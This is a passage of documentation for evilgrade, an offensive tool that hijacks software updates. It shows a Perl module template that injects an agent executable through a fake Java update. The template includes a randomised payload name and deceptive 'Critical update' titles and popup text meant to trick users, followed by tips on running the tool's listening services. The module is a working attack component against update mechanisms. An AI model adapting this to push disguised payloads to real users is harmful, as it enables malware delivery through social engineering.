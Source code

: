 ``` perl
        'string' => '',
        'parse' => '',
        'file' => ''
        }
    ],

    #Options
    #Here we have the options that will be displayed with "show options" inside the current module.
    #This options are used to parse the string or a file using in the responses
    'options' => {  'agent'  => { 'val' => './agent/java/javaws.exe', #The default value
              'desc' => 'Agent to inject'}, #Brief description
        'arg'    => { 'val' => 'http://java.sun.com/x.jnlp"',
              'desc' => 'Arg passed to Agent'},
        'enable' => { 'val' => 1,
              'desc' => 'Status'},

    #The following is a dynamic hidden option,
    #In this case we use the tag <%NAME%> to parse the files and execute perl functions to get randoms values
    #You can use whatever you like in perl, if you're wishing to use more functions check "isrcore/utils.pm"
                    'name'  => { 'val' => "'javaupdate'.isrcore::utils::RndAlpha(isrcore::utils::RndNum(1))",
                                'hidden' => 1,
                          'dynamic' =>1,},

    #All the options depend on the update process. You have to research the possible variables and implement them on your module
    #These are the mostly common update messages, webpages, descriptions, popup messages, title, etc
        'title'  => { 'val' => 'Critical update',
              'desc' => 'Title name displayed in the update'},
        'description' => { 'val' => 'This critical update fix internal vulnerability',
          'desc' => 'Description to be displayed during the update'},
        'atitle'  => { 'val' => 'Critical vulnerability',
               'desc' => 'Title name to be displayed in the systray item popup'},
        'adescription' => { 'val' => 'This critical update fix internal vulnerability',
          'desc' => 'Description  to be displayed in the systray item popup'},
        'website' => { 'val' => 'http://java.com/moreinfolink',
               'desc' => 'Website displayed in the update'}
     }
};
```

## .:: [TIPS] ::.

1) Don't forget to run evilgrade with an user that has privileges to create listening sockets,
otherwise you won't be able to use evilgrade's Services.

2) Everytime you modify a module with evilgrade running don't forget to 'reload' them.
